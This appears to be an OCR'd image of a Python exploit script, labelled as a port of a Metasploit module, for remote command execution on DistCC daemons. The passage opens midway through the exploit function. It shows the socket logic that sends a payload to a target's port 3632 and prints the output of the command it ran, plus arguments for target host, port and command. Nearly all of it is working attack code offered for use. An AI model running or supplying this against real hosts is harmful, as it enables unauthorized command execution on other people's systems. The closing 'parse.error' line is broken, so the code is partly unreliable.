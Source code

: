 ```python

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	socket.setdefaulttimeout(5)
	s.settimeout(5)

	if s.connect_ex((host, port)) == 0:
		print("[\033[32mOK\033[39m] Connected to remote service")
		try:
			s.send(payload)

			dtag = "DOTI0000000A" + rand_text_alphanumeric(10)

			s.send(dtag)

			s.recv(24)

			print("\n--- BEGIN BUFFER ---\n")
			buff = read_std(s) # STDERR

			if buff:
				print(buff)

			buff = read_std(s) # STDOUT
			if buff:
				print(buff)

			print("\n--- END BUFFER ---\n")

			print("[\033[32mOK\033[39m] Done.")
		except socket.timeout:
			print("[\033[31mKO\033[39m] Socket Timeout")
		except socket.error:
			print("[\033[31mKO\033[39m] Socket Error")
		except Exception:
			print("[\033[31mKO\033[39m] Exception Raised")
		finally:
			s.close()
	else:
		print("[\033[31mKO\033[39m] Failed to connect to %s on port %d" % (host, port))

parser = argparse.ArgumentParser(description='DistCC Daemon - Command Execution (Metasploit)')

parser.add_argument('-t', action="store", dest="host", required=True, help="Target IP/HOST")
parser.add_argument('-p', action="store", type=int, dest="port", default=3632, help="DistCCd listening port")
parser.add_argument('-c', action="store", dest="command", default="id", help="Command to run on target system")

try:
	argv = parser.parse_args()

	exploit(argv.command, argv.host, argv.port)
except IOError:
	parse.error
```
